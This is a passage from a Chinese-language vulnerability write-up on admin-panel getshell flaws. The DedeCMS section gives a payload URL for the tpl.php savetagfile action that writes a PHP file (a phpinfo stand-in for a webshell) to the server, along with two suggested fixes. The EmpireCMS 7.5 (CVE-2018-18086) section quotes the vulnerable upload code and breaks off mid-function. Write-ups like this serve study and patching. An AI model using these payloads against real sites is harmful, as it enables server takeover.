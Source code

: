 上传参数：
(由于dedecms全局变量注册的特性，content变量和filename变量可控，可以直接将content写入xxx.lib.php文件)
`action=savetagfile`
`token=上面action=upload获取的token`
`content=要写入的🐎`
`filename=xxx.lib.php（要匹配正则）`

```
payload:
dede/tpl.php?action=savetagfile&token=6ef0da020e1836c5401127d2605cb35b&filename=info.lib.php&content=<?php phpinfo();?>
```

之前查看代码可知传入的路径为include/taglib/$filename

访问`include/taglib/info.lib.php`即可

![](https://i.loli.net/2021/02/14/dIOG1YUcrPkWjHg.png)

修复：

1.禁止此处写入文件。

2.过滤恶意标签



### 帝国cms

#### 7.5后台getshell(CVE-2018-18086)

```
影响版本：帝国CMS(EmpireCMS) <= 7.5

描述：EmpireCMS7.5版本中的/e/class/moddofun.php文件的”LoadInMod”函数存在安全漏洞,攻击者可利用该漏洞上传任意文件。
```

上传任意文件：

/e/admin/ecmsmod.php中：

```php
//导入模型
elseif($enews=="LoadInMod")
{
	$file=$_FILES['file']['tmp_name'];
    $file_name=$_FILES['file']['name'];
    $file_type=$_FILES['file']['type'];
    $file_size=$_FILES['file']['size'];
	LoadInMod($_POST,$file,$file_name,$file_type,$file_size,$logininid,$loginin);
}
```


查看LoadInMod函数（/e/class/moddofun.php）：

LoadInMod函数

```
function LoadInMod($add,$file,$file_name,$file_type,$file_size,$userid,$username){
global $empire,$dbtbpre,$ecms_config;
//验证权限
CheckLevel($userid,$username,$classid,"table");
$tbname=RepPostVar(trim($add['tbname']));
if(!$file_name||!$file_size||!$tbname)
{
	printerror("EmptyLoadInMod","");
}
//扩展名
$filetype=GetFiletype($file_name);
if($filetype!=".mod")
{
```